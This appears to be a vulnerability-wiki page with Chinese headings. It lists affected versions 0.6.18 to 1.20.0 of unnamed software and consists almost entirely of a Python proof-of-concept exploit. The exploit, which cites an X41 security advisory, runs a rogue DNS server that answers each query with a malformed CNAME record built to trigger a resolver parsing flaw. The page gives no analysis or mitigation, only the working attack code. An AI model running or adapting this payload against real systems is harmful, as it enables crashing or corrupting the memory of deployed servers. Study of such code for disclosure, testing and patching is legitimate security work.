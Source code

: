 <languages />

影響版本
--------

    0.6.18 - 1.20.0

POC
---

    from binascii import hexlify, unhexlify
    from socket import AF_INET, SOCK_DGRAM, socket
    from struct import unpack

    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(('0.0.0.0', 1053))

    while True:
        request, addr = sock.recvfrom(4096)
        print(b'<<< '+hexlify(request))
        ident = request[0:2]
        # find request
        nullptr = request.find(0x0,12)
        reqname = request[12:request.find(0x0,12)+1]
        reqtype = request[nullptr+1:nullptr+3]
        reqclass = request[nullptr+3:nullptr+5]
        print('name: %s, type: %s, class: %s' % (reqname, unpack('>H', reqtype), unpack('>H', reqclass)))
        # CNAME response
        response = request[0:2] + \
                   unhexlify('''81800001000100000000''') + \
                   reqname + reqtype + reqclass + \
                   unhexlify('c00c0005000100000e10000b18414141414141414141414141414141414141414141414141c004')
        print(b'>>> '+hexlify(response))
        sock.sendto(bytes(response), addr)

參考
----

<https://github.com/x41sec/advisories/blob/master/X41-2021-002/poc.py>